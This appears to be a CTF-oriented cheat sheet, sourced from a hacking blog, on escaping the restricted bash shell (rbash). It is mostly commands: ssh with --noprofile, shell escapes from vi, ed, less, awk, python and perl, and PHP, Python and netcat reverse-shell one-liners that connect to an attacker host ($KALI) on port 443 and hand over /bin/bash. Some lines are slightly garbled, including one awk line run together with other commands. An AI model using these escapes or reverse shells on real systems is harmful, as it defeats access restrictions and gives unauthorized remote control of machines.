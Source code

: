 https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/

#### rbash escape through SSH
Our First Method is Escaping the rbash shell through ssh many ctf playing times we have ssh username and password but our shell is restricted with rbash. we can easily bypass this rbash shell using extra argument bash noprofile

```bash - kali
ssh $USER@$TARGET
```

```bash - target
echo $SHELL
```

```bash - target
cd ../
```

we can bypass the rbash shell using the no-profile extra parameter

```bash - kali
ssh $USER@$TARGET -t "bash --noprofile"
```

```bash - target
cd ../
```

#### rbash escape through editors
Linux has many editors we can bypass the rbash using these editor commands

#### bypass rbash using vi editor
First, we open the vi editor then we used: set option and we create a shell name variable and in this variable, we set our bash environment location. run the command one by one

run the vi command and our vi editor is open using the set mode we can bypass the restricted rbash shell

```bash - target
vi
```

```bash - taret
:set shell=/bin/bash
```

```bash - target
:shell
```
  
#### escaping rbash – ed editor
ed is another Linux editor simple we can run ed edit mode without selecting any file then we type bash path

```bash - target
cd /home
```

```bash - target
echo $SHELL
```

```bash - target
ed
```

```bash - target
!'/bin/bash'
```

```bash - target
pwd
```

#### escape rbash through reverse shell
We can bypass the rbash shell through different Linux reverse shell **Note:** before executing the reverse shell we need to start a net-cat listener.

##### rbash shell bypass – php
```bash - target
cd /
```

```bash - target
echo $SHELL
```

we open two ssh connections our cd command is currently not working before execute the reverse shell command firstly we start our netcat listener. in this case, we are using the same machine you can use your localhost IP for reverse connection

[[rlwrap]]

```bash - target
php -r '$sock=fsockopen("$KALI",443);exec("/bin/bash -i <&3 >&3 2>&3");'
```

After executing the reverse shell command we got the reverse connection target machine. and we successfully bypass the restricted rbash shell.

```bash - target
echo $SHELL
```

```bash - target
cd /
```

```bash - target
pwd
```

#### rbash shell bypass – python
this is another way to bypass the rbash shell using python reverse shell remember before executing the reverse shell command you need to start your netcat listener.

```bash - target
cd /
```

```bash - target
echo $SHELL
```

[[rlwrap]]

```bash - target
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

```bash - target
cd /
```

```bash - target
pwd
```

#### rbash shell bypass – netcat
```bash - target
cd /home
```

```bash - target
echo $SHELL
```

[[rlwrap]]

```bash - target
nc  $KALI 443 -e /bin/bash
```

#### rbash escape with python
If the target system already installed any python version we run these commands for bypassing the rbash shell

```bash - target
echo $SHELL
```

```bash - target
cd ../
```

```bash - target
python -c 'import os; os.system("/bin/bash");'
```

```bash - target
python3 -c 'import os; os.system("/bin/bash");'
```

and again we escape the rbash shell using python command executing -c argument.

```bash - target
cd /home
```

```bash - target
cd ../
```

### rbash escape **Awk**
```bash - target
cd /home
```

```bash - target
echo $SHELL
```

```bash - target
awk 'BEGIN {system("/bin/bash")}' cd /home cd ~ pwd
```

```bash - target
awk 'BEGIN {system("/bin/bash")}'
```

```bash - target
cd /home
```

```bash - target
cd ~
```

```bash - target
pwd
```

### rbash escape perl
```bash - target
cd /
```

```bash - target
echo $SHELL
```

```bash - target
perl -e 'system("/bin/bash");'
```

```bash - target
cd /
```

```bash - target
cd /home
```

### rbash bypass through binary file
```bash - target
cd /
```

```bash - target
echo $SHELL
```

```bash - target
less anyfile.txt
```

```bash - target
!'bash'
```

```bash - target
cd /
```

```bash - target
cd /home
```

```bash - target
pwd
```

```bash - target
echo $SHELL
```
